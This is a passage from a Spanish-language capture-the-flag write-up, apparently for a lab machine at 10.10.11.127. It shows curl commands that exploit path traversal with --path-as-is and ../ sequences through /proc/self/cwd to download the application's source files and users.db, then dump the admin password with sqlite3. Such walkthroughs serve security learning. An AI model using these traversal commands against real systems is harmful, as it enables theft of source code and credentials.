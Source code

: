 Y como respuesta, vemos que alguien apunto al puerto 80

La siguiente prueba, sera con todo lo que ya sabemos, usaremos el comando `curl` para descargarnos la aplicacion, asi que crearemos una carpeta llamada src, para almacenar dentro lo que descargaremos. Si quitamos la parte de --path-as-is la herramienta no reconocera ../ y no encontrara la pagina solicitada, asi que el comando sera:

```s
curl --path-as-is http://10.10.11.127/admin/view/../../../../../../proc/self/cwd/app.py -o app.py
```

Para seguir conociendo mas sobre la aplicacion, tambien nos treremos

```s
curl --path-as-is http://10.10.11.127/admin/view/../../../../../../proc/self/cwd/auth.py -o auth.py
```

Ahora que sabemos donde esta la base de datos, la descargaremos

```s
curl --path-as-is http://10.10.11.127/admin/view/../../../../../../proc/self/cwd/users.db -o users.db
```

Y leemos la informacion con 

```s
sqlite3 users.db .dump
```

![Admin pswd](/assets/images/fingerprint/db_pwd.png)

Que nos presenta ahora? Pues la contrasena de admin! 
Entonces,volvemosa la aplicacion de puerto 80 e insertaremos estas credenciales.

![Using Admin pswd](/assets/images/fingerprint/admin_login.png)
